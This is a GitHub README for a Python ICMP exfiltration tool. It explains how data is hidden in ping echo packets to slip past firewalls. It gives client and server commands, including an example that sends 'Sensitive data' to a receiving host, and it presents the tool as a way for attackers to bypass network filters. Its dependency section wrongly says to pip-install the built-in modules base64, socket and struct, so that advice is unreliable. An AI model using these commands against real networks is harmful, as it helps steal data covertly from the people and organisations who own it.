 # ICMP-Tool
This tool is a Python-based ICMP exfiltration tool designed to send and receive data through ICMP (Internet Control Message Protocol)

## How ICMP Exfiltration Works

ICMP (Internet Control Message Protocol) is typically used for sending error messages and operational information, such as in the **ping** command. However, ICMP can also be used for data exfiltration by embedding data within ICMP echo request and reply messages.

### Steps of ICMP Exfiltration:

1. **ICMP Echo Request:**
   - The client sends an ICMP **Echo Request** message to the server, similar to how the `ping` command works.
   - Data is embedded in the request packet as the payload.

2. **ICMP Echo Reply:**
   - The server responds with an **Echo Reply**, typically containing the same payload.
   - The data from the echo request is received and processed on the server.

### Advantages:
- ICMP packets often pass through firewalls and network filters because ICMP is commonly allowed for diagnostic purposes.
- Since ICMP is lightweight and commonly used, it can be leveraged to covertly exfiltrate small amounts of data.

## How to Use the Script

### Prerequisites:
- **Python 3.x** is required.
- Admin privileges are necessary to create raw sockets for ICMP communication.

### Script Features:

- **Base64 Encoding (`--b64` flag)**: You can encode messages in Base64 to safely transmit special characters.
- **Cross-Platform**: The script works on both Linux and Windows.
- **Client/Server Mode**: Use the `--client` flag to send ICMP packets or the `--server` flag to listen for ICMP packets.

### Script Usage

1. **Server Mode** (to receive data):
   ```bash
   sudo python3 icmp_tool.py --server
   ```

2. **Client Mode** (to send data):
   **Without Base64 Encoding**:
     ```bash
     sudo python3 icmp_tool.py --client <server_ip> "<message>"
     ```
   **With Base64 Encoding**:
     ```bash
     sudo python3 icmp_tool.py --client <server_ip> "<message>" --b64
     ```

### Example Workflow:

1. **Start the server** on a machine (e.g., IP: 192.168.1.87):
   ```bash
   sudo python3 icmp_tool.py --server
   ```

2. **Send a message** from the client machine:
   ```bash
   sudo python3 icmp_tool.py --client 192.168.1.87 "Sensitive data"
   ```

3. **Send a Base64-encoded message** from the client machine:
   ```bash
   sudo python3 icmp_tool.py --client 192.168.1.87 "Sensitive data" --b64
   ```

### Understanding the Output:

- The **server** will show received ICMP packets and display whether the message was Base64 encoded.
- If `--b64` is used, the server will display both the encoded and decoded messages.

### Cross-Platform Execution:

- On **Linux**, run the script with `sudo`:
   ```bash
   sudo python3 icmp_tool.py --client <server_ip> "<message>"
   sudo python3 icmp_tool.py --server
   ```

- On **Windows**, execute the script from a command prompt **run as Administrator**:
   ```cmd
   python icmp_tool.py --client <server_ip> "<message>"
   python icmp_tool.py --server
   ```

## Installing Dependencies

This script uses built-in Python libraries like `socket`, `base64`, and `struct`. There are no external dependencies. However, to ensure proper execution, especially if you are planning to add more functionalities, you can create a `requirements.txt` file for package management.

### `requirements.txt`

If needed, create the following `requirements.txt` file:

```text
base64
socket
struct
```

### Installing dependencies:

To install dependencies from the `requirements.txt` file, use:
```bash
pip install -r requirements.txt
```

This will ensure that all necessary modules are available for running the script.

## Conclusion

This script leverages ICMP echo request and reply messages for data exfiltration. By embedding sensitive data within ICMP packets, attackers can potentially bypass network filters. The script supports both plain and Base64-encoded message transmission, and works on both Windows and Linux. Use it carefully for testing and demonstration purposes!
